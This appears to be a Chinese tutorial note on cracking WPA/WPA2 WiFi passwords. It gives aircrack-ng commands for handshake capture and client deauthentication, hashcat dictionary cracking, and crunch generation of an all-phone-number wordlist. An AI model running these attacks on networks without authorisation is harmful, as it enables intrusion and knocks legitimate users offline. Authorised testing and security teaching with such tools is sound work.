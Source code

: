 # WiFi 安全

参考：

- [【Aircrack】Kali linux 下使用 Aircrack-ng 对于 wifi 暴力破解的使用教程](https://freeerror.org/d/161-kali-linux-aircrack-ng-wifi)
- [【Aircrack】Kali Linux使用Aircrack破解wifi密码(wpa_wpa2) - 罗道义 - 博客园](https://www.cnblogs.com/daoyi/p/Kali-Linux-shi-yongAircrack-po-jiewifi-mi-ma-wpawp.html)
- [【Aircrack】Kali破解wifi最基础版_运维_河南理工杨轻帆的博客-CSDN博客](https://blog.csdn.net/tangjikede2008/article/details/99758890)
- [【Aircrack】airodump-ng帮助手册翻译 - lim42 - 博客园](https://www.cnblogs.com/lim42/p/6887905.html)
- [【Crunch】Linux下的字典生成工具Crunch，创造自己的专属字典 - FreeBuf互联网安全新媒体平台](https://www.freebuf.com/sectool/170817.html)
- [【Crunch】crunch--字典生成工具 - wpjamer - 博客园](https://www.cnblogs.com/wpjamer/p/9913380.html)
- [【Crunch】crunch生成手机号 发个教程 55G吓人啊 - mljqqh - 博客园](https://www.cnblogs.com/mljqqh/p/10344507.html)
- [【Hashcat】cracking_wpawpa2 [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
- [【Hashcat】frequently_asked_questions [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#overview)
- [【Hashcat】hashcat暴力破解密码 _ 忆杰的博客](https://www.joenchen.com/archives/1248)
- [【Hashcat】使用Hashcat跑Wifi密码 _ ohhink](https://ouhaohan8023.github.io/2019/08/22/Artisans/使用Hashcat跑Wifi密码/)
- [【Hashcat】用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码 - 方方和圆圆 - 博客园](https://www.cnblogs.com/diligenceday/p/6359661.html)
- [【钓鱼】Hacking any WPA_WPA2 PSK without BruteForce - 简书](https://www.jianshu.com/p/2a19a8e5aee7)
- [隐藏wifi ssid获取 - 简书](https://www.jianshu.com/p/a86ae4ed102d)

## airmon-ng, airodump-ng, aireplay-ng, aircrack-ng 工具的使用

```sh
# 查看支持的网卡
airmon-ng

# 将网卡切换成监听模式
# wlan0 是网卡名称，开启后会在后面加上mon
airmon-ng start wlan0

# 扫描无线列表
airodump-ng wlan0mon

# 查看指定 BSSID 的详情
airodump-ng -d 08:1F:71:xx:xx:xx wlan0mon

# 抓握手包，在这里面包含加密的密码
airodump-ng -c 1 --bssid 08:1F:71:xx:xx:xx -w ~/wifi/ wlan0mon

# 攻击连接上该热点的客户端，让其掉线重连，以获取握手包
aireplay-ng -0 20 -a 08:1F:71:xx:xx:xx -c 04:33:85:xx:xx:xx wlan0mon

# 停止监听模式
airmon-ng stop wlan0mon

# 跑字典获取密码
aircrack-ng -a2 -b 08:1F:71:xx:xx:xx -w ~/baoli/rockyou.txt ~/wifi/*.cap 
```

## 使用 Hashcat 快速跑字典

Hashcat for windows: [hashcat-5.1.0.7z](https://hashcat.net/files/hashcat-5.1.0.7z) [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases)

```
# 转换 cap 为 hccapx
cap2hccapx.exe 01.cap 01.hccapx

# 用 Hashcat 跑字典，支持 GPU 加速，其中指定 session 可以保存日志或进度
hashcat64.exe -m 2500 D:\test\01.hccapx D:\zd\word.txt  --session=whypie0
```

## 使用 Chrunch 生成任意字典

生成手机号，新建一个 `num.txt` 文件，内容为：

```
numeric = [345789]
```

然后让其生成，最后文件非常大，有 `72.6 GB`！：

```
crunch 11 11 -f ./num.txt numeric -t 1@%%%%%%%%% -o allPhones.txt
```